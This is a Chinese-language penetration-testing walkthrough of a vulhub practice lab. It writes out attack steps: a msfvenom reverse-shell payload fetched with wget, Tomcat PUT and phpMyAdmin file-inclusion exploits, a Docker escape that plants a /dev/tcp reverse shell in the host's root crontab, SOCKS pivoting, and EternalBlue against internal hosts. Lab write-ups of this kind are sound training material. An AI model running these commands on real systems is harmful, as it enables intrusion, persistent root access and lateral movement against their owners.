## 0x01 实验环境

**目标端**

> **ubuntu**
>
> IP1:	192.168.157.128
> IP2:	192.168.183.128
> ubuntu:ubuntu

> **win7**
> IP:	192.168.183.129
> douser:Dotest123

> **DC**
>
> IP:	192.168.183.130
> administrator:Test2008

**攻击端**

> windows7	192.168.157.129
>
> kali		  	 192.168.157.130



## 0x01 渗透测试

首先需要进入ubuntu开启服务，密码ubuntu

渗透目标里提到三处web漏洞利用，如下

- st漏洞利用
- phpmyadmin getshell
- tomcat 漏洞利用



1、开启struts2服务

```bash
cd /home/ubuntu/Desktop/vulhub/struts2/s2-045
sudo docker-compose up -d
```

2、开启tomcat服务

```bash
cd /home/ubuntu/Desktop/vulhub/tomcat/CVE-2017-12615
sudo docker-compose up -d
```

3、开启phpmyadmin服务

```bash
cd /home/ubuntu/Desktop/vulhub/phpmyadmin/CVE-2018-12613
sudo docker-compose up -d
```




### 信息搜集

nmap扫面开放端口情况 `nmap -sT -Pn -sV -A 192.168.157.128`



可以看到开放了2001-2003这几个服务端口，挨个利用一下


### 漏洞利用

#### 2001端口strusts2

访问一下 `http://192.168.157.128:2001/`



针对这种漏洞，一般都是利用struts2漏洞利用工具进行利用



命令执行验证一下



接着使用wget上传木马getshell 

 kali开启web服务

```bash
python -m SimpleHTTPServer 8000
```

制作msf木马

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.157.130 LPORT=5555 -f elf > shell.elf
```

远程执行命令

```
wget http://192.168.157.130:8000/shell.elf
```



ls查看文件已上传到目标机



在kali里面开启msf做下监听

```ba'sh
msf > use exploit/multi/handler 
msf exploit(handler) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.157.130
lhost => 192.168.157.130
msf exploit(handler) > set lport 5555
lport => 5555
msf exploit(handler) > run
```



给木马文件shell.elf添加执行权限 `chmod +x shell.elf`，然后执行 `./shell.elf`，获得一个meterpreter



#### 2002端口tomcat

再看下2002端口的tomcat

同样访问一下，熟悉的tomcat页面



针对这个tomcat服务，可以用awvs等工具扫一下，可以扫出来 `CVE-2017-12615` 这个漏洞，这里已知这个漏洞就不再扫了，直接利用

burp开代理抓包，直接修改请求访问为PUT，注意请问文件后面加斜杠`/`绕过



冰蝎连接



这里同样可以利用冰蝎反弹shell到msf或者cs上，这里先不写了

#### 2003端口phpmyadmin

访问2003端口，直接进去phpadmin了，都没有让输入密码。。。



验证下漏洞cve-2018-12613是否存在

`http://192.168.89.3:2003/index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd`



先执行sql语句



session值可在执行sql查询后的cookie中找到



然后包含phpmyadmin session文件

`http://192.168.157.128:2003/index.php?target=db_datadict.php%253f/../../../../../../../../../tmp/sess_cf995ead27320f34ff651f8aa8fe5ad3`



这样可以直接写入webshell好像不行，连接失败，这里花费了一些时间也没有getshell，先跳过吧

## 0x02 内网渗透

### docker逃逸

题目背景交代的有docker逃逸

这里可以判断下服务是不是在docker环境中，参考freebuf[初识Docker逃逸](https://www.freebuf.com/articles/container/242763.html)

> 判断是否存在.dockerenv文件方法
> docker环境下存在：ls -alh /.dockerenv 文件
>
> 
>
> 非docker环境，没有.dockerenv文件
>
> 

判断出当前服务在docker环境



其实通过这里也大概能推断出环境在docker里



需要进行docker逃逸

为了便于学习，这里我们对比看下ubuntu环境中，2002端口tomcat以特权模式启动的，而2001端口struts2没有



所以我们用到2002端口tomcat的webshell进行逃逸

通过挂载宿主的硬盘进行逃逸，比如sda1



```bash
/usr/local/tomcat/ >cd /tmp
/tmp/ >mkdir test	
/tmp/ >mount /dev/sda1 test		//挂载宿主机sda1到test目录下
```



可以通过查看test目录下etc/passwd文件，可以看到宿主机用户ubuntu



在计划任务里写入一个bash反弹shell的脚本：

```powershell
/tmp/test/tmp >echo "/bin/bash -i >& bash -i >& /dev/tcp/192.168.157.130/8888 0>&1"  >> shell.sh
/tmp/test/tmp >chmod +x shell.sh
/tmp/test/tmp >cat shell.sh
```



 写入crontab计划任务，表示每隔1分钟以root权限执行一次计划

```powershell
echo '*/1 * * * * root  bash /tmp/shell.sh' > /tmp/test/etc/crontab
```

`cat /tmp/test/etc/crontab`查看是否写入成功



kali里面nc监听8888端口

`nc -lvvp 8888`



成功拿到宿主机ubuntu的shell

### 内网渗透1

反弹shell到msf过程老是失败，想着在肉鸡上做下代理吧

将./ew_for_linux64上传到目标机Ubuntu，添加可执行权限，执行`./ew_for_linux64 -s ssocksd -l 1081`



在攻击端kali修改下vi /etc/proxychains.conf的配置文件，加上代理

`vi /etc/proxychains.conf`



`socks5 192.168.157.128 1081`



扫起来非常慢，为了方便，这里不再扫描整个c段，只扫描了给出的两台183网段的两台内网主机

`proxychains nmap -Pn 192.168.183.129-130 -sT -p 135,139,445`



可以看到已经扫出来了这两台主机的445端口等

扫下ms17-010试下 `proxychains msfconsole`



```powershell
proxychains msfconsole	#使用代理启动msf
use exploit/windows/smb/ms17_010_eternalblue   #加载渗透攻击模块
set payload windows/x64/meterpreter/bind_tcp   #因为使用代理所以正向监听
set AutoRunScript post/windows/manage/migrate  #自动化后渗透测试，执行 #一次就可以获得对目标的控制权限
set rhost 192.168.183.129 #设置内网域成员为目标机
set lport 4444  #设置监听端口
run
```



这里不知道什么原因，meterpreter总是一会就掉线，下面就不再搞了，就是一些内网横向渗透、权限维持等这些，大同小异了。。




### 内网渗透2

用上面漏洞利用里同样的方法做一个Linux木马，使目标机在msf上线



执行命令`shell`



执行 `ifconfig`，发现有183网段的网卡



添加默认路由

```
run autoroute -s 192.168.183.0/24
run autoroute -p
```



> 为了进一步渗透，也可以通过msf自带模块开启代理
>
> ```powershell
> use auxiliary/server/socks4a
> set SRVPORT 8088
> ```
>
> 
>
> 相应的在kali里做下代理
>
> ```
> vi /etc/proxychains.conf
> ```
>
> 在末尾添加 `socks4 127.0.0.1 8088`
>
> 

可以直接用ms17-010攻击模块直接攻击183.129和域控




参考

https://www.cnblogs.com/1-Ry/p/15515427.html